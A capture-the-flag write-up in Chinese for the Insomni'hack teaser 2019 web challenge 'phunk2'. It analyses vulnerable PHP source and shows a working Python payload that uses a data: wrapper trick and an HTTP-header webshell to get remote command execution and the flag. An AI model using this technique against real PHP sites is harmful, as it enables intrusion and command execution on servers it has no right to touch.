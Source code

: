 ```yaml
---
uuid: 582cd6cc-d14f-44ad-96c8-36ce8ebf3842
title: Insomni'hack teaser 2019 - phunk2
tags:
  - writeup 
  - web
  - php
categories:
  - Capture The Flag
  - Insomni'hack teaser 2019
date: 2019-01-31 00:00:00
updated: 2019-01-31 00:00:00
---
```


利用 wrapper 對字串解析的不同來成功 getshell

<!--more-->

# [正文]
題目一開始就給出 source code 和 [phpinfo.php](http://phuck.teaser.insomnihack.ch/phpinfo.php)!


{% codeblock source code lang:php http://phuck.teaser.insomnihack.ch/?hl http://phuck.teaser.insomnihack.ch/?hl line_number:true %}
stream_wrapper_unregister('php');
if(isset($_GET['hl'])) highlight_file(__FILE__);

$mkdir = function($dir) {
    system('mkdir -- '.escapeshellarg($dir));
};
$randFolder = bin2hex(random_bytes(16));
$mkdir('users/'.$randFolder);
chdir('users/'.$randFolder);

$userFolder = (isset($_SERVER['HTTP_X_FORWARDED_FOR']) ? $_SERVER['HTTP_X_FORWARDED_FOR'] : $_SERVER['REMOTE_ADDR']);
$userFolder = basename(str_replace(['.','-'],['',''],$userFolder));

$mkdir($userFolder);
chdir($userFolder);
file_put_contents('profile',print_r($_SERVER,true));
chdir('..');
$_GET['page']=str_replace('.','',$_GET['page']);
if(!stripos(file_get_contents($_GET['page']),'<?') && !stripos(file_get_contents($_GET['page']),'php')) {
    include($_GET['page']);
}

chdir(__DIR__);
system('rm -rf users/'.$randFolder);
{% endcodeblock %}

## Analysis
1. 先觀察 `phpinfo` 重要的兩項，`allow_url_include` 和 `allow_url_fopen`
    {% codeblock lang:plain line_number:false %}
    Directive           Local Value	    Master Value
    allow_url_fopen	    On	            On
    allow_url_include   Off	            Off`
    {% endcodeblock %}

2. 再來觀察 source code，首先可以發現 Wrapper `php://` 被關閉。
    {% codeblock lang:php line_number:true first_line:1 %}
    stream_wrapper_unregister('php');
    {% endcodeblock %}

3. `$mkdir` 的 `system` 有加入 `escapeshellarg($dir)` 基本上是死路。
    {% codeblock lang:php line_number:true first_line:4 mark:5 %}
    $mkdir = function($dir) {
        system('mkdir -- '.escapeshellarg($dir));
    };
    {% endcodeblock %}

4. 看起來可以透過 `$_SERVER['HTTP_X_FORWARDED_FOR']` 控制 `$userFolder`。再來會把 `$_SERVER` array 的內容都 dump 進 `$userFolder/profile` 裡面。
    {% codeblock lang:php line_number:true first_line:11 mark:4 %}
    $userFolder = (isset($_SERVER['HTTP_X_FORWARDED_FOR']) ? $_SERVER['HTTP_X_FORWARDED_FOR'] : $_SERVER['REMOTE_ADDR']);
    $userFolder = basename(str_replace(['.','-'],['',''],$userFolder));

    $mkdir($userFolder);
    chdir($userFolder);
    file_put_contents('profile',print_r($_SERVER,true));
    {% endcodeblock %}

5. 看起來可以控制 `$_GET['page']`，不過 `allow_url_include` 被關閉了不能輕鬆地 LFI
    {% codeblock lang:php line_number:true first_line:18 mark:4 %}
    $_GET['page']=str_replace('.','',$_GET['page']);
    if(!stripos(file_get_contents($_GET['page']),'<?') && !stripos(file_get_contents($_GET['page']),'php')) {
        include($_GET['page']);
    }
    {% endcodeblock %}

6. 全部跑完後會把產生的所有東西都刪除。
    {% codeblock lang:php line_number:true first_line:23 mark:4 %}
    chdir(__DIR__);
    system('rm -rf users/'.$randFolder);
    {% endcodeblock %}

## Get shell

`allow_url_fopen on, allow_url_include off`， data warper 會有以下性質
{% codeblock lang:php line_number:false %}
file_get_contents( 'data:,QAQ/profile' );
-> allow_url_fopen   on  => get 'QAQ/profile' file contents

include( 'data:,QAQ/profile' );
-> allow_url_include off => get 'data:,QAQ/profile' file contents
{% endcodeblock %}

透過前面的觀察，可以創建一個 `data:,aaaa/profile`，然後 `file_get_contents()` 會去嘗試得到 `aaaa/profile` 這個不存在的檔案的內容，成功 bypass，且 `include()` 會成功 include `data:,aaaa/profile`。至於檔案的內容 `print_r($_SERVER,true)`，可以透過傳送 http header 來送進去。

## payload

{% codeblock lang:python line_number:true %}
#!/usr/bin/env python3

import requests, sys

headers = {
    "X-Forwarded-For": "data:,QAQ",
    "Webshell": "<?php system('"+ sys.argv[1] +"'); ?>"
}

url = "http://phuck.teaser.insomnihack.ch"
payload = { "page": "data:,QAQ/profile" }
r = requests.get( url, headers=headers, params=payload )
print(r.text)
{% endcodeblock %}

{% codeblock lang:shell line_number:false %}
$ python payload.py 'ls /'
...
    [HTTP_WEBSHELL] => bin
boot
dev
etc
flag
get_flag
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
...
$ python payload.py '/get_flag'
...
    [HTTP_WEBSHELL] => INS{PhP_UrL_Phuck3rY_h3h3!}
...
{% endcodeblock %}

FLAG: `INS{PhP_UrL_Phuck3rY_h3h3!}`

